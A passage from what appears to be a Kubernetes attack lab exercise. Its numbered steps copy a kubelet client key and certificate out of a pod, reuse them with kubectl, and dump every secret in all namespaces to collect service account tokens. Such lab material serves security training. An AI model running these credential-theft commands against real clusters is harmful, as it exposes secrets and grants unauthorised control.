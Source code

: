 42. Create a kubectl command alias to make things easier:

    ```shell
    alias kubectl="/root/K8S-Exercise/kubectl \
    --server=$(cat /sync/.cloud_clusters/serverip-$CLOUD_ID) \
    --token=$(cat /sync/.cloud_clusters/token-cluster-$CLOUD_ID) \
    --certificate-authority=/sync/.cloud_clusters/ca.crt-$CLOUD_ID"
    ```

43. Copy the `/clientkey` file out of the bwa pod:

    ```shell
    kubectl exec bwa -- bash -c "cat /clientkey" >clientkey
    ```

44. Copy the `/clientcert` file out of the bwa pod:

    ```shell
    kubectl exec bwa -- bash -c "cat /clientcert" >clientcert
    ```
   
45. Redo your kubectl alias to use the cloud cluster, but with  `--client-key` and `--client-certificate` command-line options in place of `--token`, so we can use the kubelet key and certificate to authenticate:

    ```shell
    alias kubectl="/root/K8S-Exercise/kubectl \
    --server=$(cat /sync/.cloud_clusters/serverip-$CLOUD_ID) \
    --certificate-authority=/sync/.cloud_clusters/ca.crt-$CLOUD_ID \
    --client-key=clientkey --client-certificate=clientcert "
    ```

46. Let's see what privileges we have:

    ```shell
    kubectl auth can-i --list
    ```

47. Try pulling every secret in the cluster:

    ```shell
    kubectl get secrets --all-namespaces -o yaml
    ```

48. Notice that you have all the service account tokens!

